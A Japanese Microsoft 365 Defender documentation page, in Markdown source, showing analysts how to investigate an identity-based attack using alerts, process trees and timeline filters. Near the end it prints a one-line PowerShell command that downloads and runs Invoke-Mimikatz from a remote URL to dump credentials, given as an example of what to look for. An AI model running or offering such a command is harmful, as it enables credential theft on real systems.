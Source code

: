 ```yaml
---
title: ID ベースの攻撃の例
description: ID ベースの攻撃の分析の例を示します。
keywords: インシデント, アラート, 調査, 相関関係, 攻撃, マシン, デバイス, ユーザー, ID, ID, メールボックス, 電子メール, 365, microsoft, m365, インシデント対応, サイバー攻撃
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: dansimp
author: dansimp
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: 6d62e1127eabb401a6af77aa1bbf073e4cfced17
ms.sourcegitcommit: a4729532278de62f80f2160825d446f6ecd36995
ms.translationtype: MT
ms.contentlocale: ja-JP
ms.lasthandoff: 03/31/2022
ms.locfileid: "64570109"
---
```

# <a name="example-of-an-identity-based-attack"></a>ID ベースの攻撃の例

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**適用対象:**
- Microsoft 365 Defender

Microsoft Defender for Identityは、組織内の ID を侵害する悪意のある試みを検出するのに役立ちます。 Defender for Identity はMicrosoft 365 Defenderと統合されるため、セキュリティ アナリストは、Netlogon 特権昇格の試行の疑いなど、Defender for Identity からの脅威を可視化できます。

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Microsoft Defender for Identityでの攻撃の分析

Microsoft 365 Defenderを使用すると、アナリストはインシデント ページの [アラート] タブで検出ソースによって **アラート** をフィルター処理できます。 次の例では、検出ソースが **Defender for Identity** にフィルター処理されます。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Microsoft Defender for Identityで検出ソースをフィルター処理する" lightbox="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png":::

**ハッシュ攻撃の疑いのあるアラートを** 選択すると、Microsoft Defender for Cloud Appsのページに移動し、より詳細な情報が表示されます。 アラートまたは攻撃の詳細については、 **このアラートの種類の詳細** を選択して、攻撃と修復 [の提案の説明を](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) 読むことができます。
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="疑わしい超過ハッシュ攻撃アラート" lightbox="../../media/first-incident-path-identity/first-incident-identity-alert-example.png"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Microsoft Defender for Endpointで同じ攻撃を調査する

または、アナリストは Defender for Endpoint を使用して、エンドポイント上のアクティビティの詳細を確認することもできます。 インシデント キューからインシデントを選択し、[ **アラート** ] タブを選択します。ここから、検出ソースも識別できます。 EDRとしてラベル付けされた検出ソースは、エンドポイントの検出と応答を表します。これは Defender for Endpoint です。 ここから、アナリストはEDRによって検出されたアラートを選択します。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Microsoft Defender for Endpoint ポータルでのエンドポイントの検出と応答" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png":::

アラート ページには、影響を受けるデバイス名、ユーザー名、自動調査の状態、アラートの詳細など、さまざまな関連情報が表示されます。 アラート ストーリーは、プロセス ツリーの視覚的な表現を示しています。 プロセス ツリーは、アラートに関連する親プロセスと子プロセスを階層的に表したものです。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Microsoft Defender for Endpointのアラート プロセス ツリー" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png"::: 

各プロセスを展開して詳細を表示できます。 アナリストが確認できる詳細は、悪意のあるスクリプト、送信接続 IP アドレス、およびその他の有用な情報の一部として入力された実際のコマンドです。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Microsoft Defender for Endpoint ポータルのプロセスの詳細" lightbox="../../media/first-incident-path-identity/first-incident-identity-process-details.png":::
 
**[タイムラインで表示]** を選択すると、アナリストはさらにドリルダウンして、侵害の正確な時刻を判断できます。 

Microsoft Defender for Endpointは、多くの悪意のあるファイルとスクリプトを検出できます。 ただし、送信接続、PowerShell、およびコマンド ライン アクティビティの正当な用途が多いため、悪意のあるファイルまたはアクティビティが作成されるまで、一部のアクティビティは無害と見なされます。 そのため、タイムラインを使用すると、アナリストは周囲のアクティビティと共にコンテキストにアラートを配置し、他の場合は共通のファイル システムとユーザー アクティビティによって隠されている攻撃の元のソースまたは時刻を判断できます。 

タイムラインを使用するために、アナリストはアラート検出の時点 (赤) から開始し、時間をさかのぼって下にスクロールして、悪意のあるアクティビティにつながった元のアクティビティが実際に開始されたタイミングを判断します。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="アナリストのアラート検出の開始時刻" lightbox="../../media/first-incident-path-identity/first-incident-identity-start-time.png"::: 

Windows Update接続、信頼されたソフトウェアアクティブ化トラフィックのWindows、Microsoft サイトへのその他の一般的な接続、サード パーティのインターネット アクティビティ、Microsoft Endpoint Configuration Manager アクティビティ、その他の無害なアクティビティなどの一般的なアクティビティを疑わしいアクティビティから理解して区別することが重要です。活動。 区別する方法の 1 つは、タイムライン フィルターを使用する方法です。 アナリストが表示したくないものを除外しながら、特定のアクティビティを強調表示できるフィルターは多数あります。 

次の図では、アナリストがフィルター処理して、ネットワーク イベントとプロセス イベントのみを表示しています。 このフィルター条件を使用すると、アナリストは、プロセス ツリーで見た IP アドレスとの接続メモ帳確立したイベントを取り巻くネットワーク接続とプロセスを確認できます。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="悪意のある送信接続を作成するためにメモ帳を使用した方法" lightbox="../../media/first-incident-path-identity/first-incident-identity-notepad.png"::: 

この特定のイベントでは、悪意のある送信接続を行うためにメモ帳が使用されました。 ただし、通常、iexplorer.exe プロセスは通常の Web ブラウザー アクティビティと見なされるため、攻撃者はiexplorer.exeを使用して悪意のあるペイロードをダウンロードするための接続を確立します。

タイムラインで探すもう 1 つの項目は、PowerShell が送信接続に使用することです。 アナリストは、悪意のあるファイルをホストしている Web サイトへの送信接続に `IEX (New-Object Net.Webclient)` 続いて、コマンドを使用して PowerShell 接続が正常に行われるかどうかを探します。 

次の例では、PowerShell を使用して、Web サイトから Mimikatz をダウンロードして実行しました。

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
アナリストは、検索バーにキーワードを入力してキーワードをすばやく検索し、PowerShell で作成されたイベントのみを表示できます。 

## <a name="next-step"></a>次の手順

フィッシング調査パス [を](first-incident-path-phishing.md) 参照してください。

## <a name="see-also"></a>関連項目

- [インシデントの概要](incidents-overview.md)
- [インシデントの管理](manage-incidents.md)
- [インシデントの調査](investigate-incidents.md)
